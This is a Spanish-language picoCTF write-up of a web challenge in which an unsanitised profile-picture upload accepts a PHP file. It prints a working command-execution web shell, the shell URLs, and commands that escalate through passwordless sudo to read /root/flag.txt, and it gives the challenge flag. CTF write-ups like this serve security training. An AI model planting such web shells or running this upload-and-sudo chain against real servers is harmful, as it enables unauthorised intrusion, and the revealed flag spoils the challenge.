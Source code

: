 
## Descripción

*A developer has added profile picture upload functionality to a website. However, the implementation is flawed, and it presents an opportunity for you. Your mission, should you choose to accept it, is to navigate to the provided web page and locate the file upload area. Your ultimate goal is to find the hidden flag located in the `/root` directory.You can access the web application [here](http://standard-pizzas.picoctf.net:60860/)!*


## Pistas

*File upload was not sanitized*
*Whenever you get a shell on a remote machine, check `sudo -l`*

## Solución


```
SCRIPT PHP
<?php  
if ( isset ( $_GET [ 'cmd' ])){  
echo "<pre>" ;  
$cmd = $_GET [ 'cmd' ]; // Obtener el comando de la cadena de consulta  
system ( $cmd ); // Ejecutar el comando y mostrar la salida  
echo "</pre>" ;  
}  
?>

http://standard-pizzas.picoctf.net:64510/uploads/shell.php?cmd=

http://standard-pizzas.picoctf.net:64510/uploads/shell.php?cmd=whoami
www-data
http://standard-pizzas.picoctf.net:64510/uploads/shell.php?cmd=sudo%20-l
Matching Defaults entries for www-data on challenge:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on challenge:
    (ALL) NOPASSWD: ALL


http://standard-pizzas.picoctf.net:64510/uploads/shell.php?cmd=sudo%20cat%20/root/flag.txt
picoCTF{wh47_c4n_u_d0_wPHP_b42a374d}
```
picoCTF{wh47_c4n_u_d0_wPHP_b42a374d}
## Notas Adicionales 

*Observamos que tenemos que subir alguna imagen, pero si intentamos subir otra cosa, con otra terminacion si lo permite, aprovechamos eso y primero hicimos un script php,como si lo permite, nos movemos desde el url, primero viendo en que usurario esta, nos dice ques www data, vemos los privilegios con sudo -l, como dice que no necesita contraseña, y en la descripcion dice que vayamos al root, nos dirigimos con cat root y falg.txt y nos muestra la bandera.*

## Referencias 
http://standard-pizzas.picoctf.net:60860/
https://medium.com/@inferiorak/n0s4n1ty-1-web-exploitation-picoctf-2025-edcde6045088